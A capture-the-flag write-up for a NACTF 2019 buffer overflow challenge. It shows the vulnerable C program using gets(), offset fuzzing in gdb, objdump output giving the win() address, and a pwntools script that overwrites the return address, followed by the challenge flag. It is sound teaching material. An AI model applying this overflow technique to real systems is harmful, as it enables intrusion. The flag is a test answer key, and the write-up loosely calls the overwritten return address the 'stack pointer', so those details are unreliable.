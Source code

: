 # BufferOverflow #1

## Challenge

"The close cousin of a website for 'Question marked as duplicate' - part 2!

Can you redirect code execution and get the flag?

Connect at shell.2019.nactf.com:31462"

You can download the problem files here [bufover-1.c](bufover-1.c) [bufover-1](bufover-1)

## Process

From the title I knew this would be a buffer overflow challenge. I opened up the .c file and looked for anything interesting.

```
#include <stdio.h>

void win()
{
	printf("You win!\n");
	char buf[256];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL)
	{
		puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
	}
	else
	{
		fgets(buf, sizeof(buf), f);
		printf("flag: %s\n", buf);
	}
}

void vuln()
{
	char buf[16];
	printf("Type something>");
	gets(buf);
	printf("You typed %s!\n", buf);
}

int main()
{
	/* Disable buffering on stdout */
	setvbuf(stdout, NULL, _IONBF, 0);

	vuln();
	return 0;
}
```

I noticed the line
```

```
	gets(buf);
```

which is vulnerable to a buffer overflow attack. I also noticed

```
void win()
{
	printf("You win!\n");
	char buf[256];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL)
	{
		puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
	}
	else
	{
		fgets(buf, sizeof(buf), f);
		printf("flag: %s\n", buf);
	}
}
```

This tells us that we want to jump into the function win(). I locally ran the file in gdb and supplied more than enough characters to cause errors. I alphabetically inputted letters in groups of four to make it easier to determine how large of an offset I'll need in my payload. 

![Fuzzing the file](Capture.JPG)

0x48484848 overflowed into the stack pointer. 0x48 in hexadecimal is the letter "H" in ascii. Therefore 32 total characters are needed to cause a buffer overflow, and the last four of those 32 characters will overwrite the stack pointer. We want to overwrite the stack pointer such that the program jumps to the function win() and prints the flag.

To find the address of the function win(), I ran an object dump on the given elf file. You can look at the entire dump here [objectdump-d.txt](objectdump-d.txt).

```
$ objdump -d return-to-sender > objectdump-d.txt
```

Through the dump I found the address of the function win(), which is 0x080491b2

```
080491b2 <win>:
 80491b2:	55                   	push   %ebp
 80491b3:	89 e5                	mov    %esp,%ebp
 80491b5:	81 ec 18 01 00 00    	sub    $0x118,%esp
 80491bb:	83 ec 0c             	sub    $0xc,%esp
 80491be:	68 08 a0 04 08       	push   $0x804a008
```

I then wrote and ran [this](payloader.py) python script to perform the bufferoverflow attack.

```
from pwn import * 
connection = remote('shell.2019.nactf.com', 31462)
#through fuzzing we found buffer
offset = 28
#through objdump -d we found the address of win as 0x080491b2
address = p32(0x080491b2)
#perform the bufferoverflow itself
connection.sendline('a'*offset + address)
connection.interactive()

#The flag is nactf{pwn_31p_0n_r3t_iNylg281}
```

![Capture2](Capture2.JPG)

The flag is nactf{pwn_31p_0n_r3t_iNylg281}